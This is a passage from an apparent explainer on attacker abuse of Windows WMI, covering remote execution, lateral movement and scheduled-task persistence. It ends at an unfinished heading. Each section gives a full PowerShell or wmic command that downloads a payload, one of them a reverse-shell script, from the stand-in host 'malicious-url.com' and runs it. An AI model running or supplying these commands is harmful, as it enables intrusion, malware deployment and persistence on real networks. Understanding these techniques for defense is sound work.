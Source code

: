 **How it works**:

-   WMI is used to execute commands remotely, typically opening a reverse shell or enabling further exploitation.

**Example**:

-   An attacker uses WMI to execute a PowerShell script that opens a reverse shell back to the attacker’s server.
-   **Command**:
-   `Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Command Invoke-WebRequest 'http://malicious-url.com/reverse-shell.ps1' -OutFile 'C:\Windows\Temp\reverse-shell.ps1'; C:\Windows\Temp\reverse-shell.ps1"`

# WMI for Pivoting (Lateral Movement)

**What it is**: After compromising one system, attackers use WMI to move laterally to other systems, expanding the attack footprint across the network.

**How it works**:

-   Attackers leverage WMI to execute commands on additional systems, further escalating privileges and spreading across the network.

**Example**:

-   An attacker uses WMI to run commands on a target machine to download and execute malware from a remote server.
-   **Command**:

`wmic /node:TargetSystem process call create "powershell.exe -Command Invoke-WebRequest 'http://malicious-url.com/malware.exe' -OutFile 'C:\Windows\Temp\malware.exe'; Start-Process 'C:\Windows\Temp\malware.exe'"`

# WMI Scheduled Task Creation (Persistence)

**What it is**: Attackers use WMI to create scheduled tasks that ensure malicious payloads are executed at specific times or events, such as system reboot or user logon.

**How it works**:

-   WMI schedules tasks that trigger malicious scripts or binaries at system startup or user logon.

**Example**:

-   An attacker creates a scheduled task using WMI that runs a malicious PowerShell script every time a user logs on to the system.
-   **Command**:
-   `$task = [wmiclass]"\\localhost\root\cimv2:Win32_ScheduledJob" $task.Create("powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-WebRequest 'http://malicious-url.com/payload.ps1' -OutFile 'C:\Windows\Temp\payload.ps1'; Start-Process 'C:\Windows\Temp\payload.ps1'")`

# WMI for Remote Code Execution (RCE)
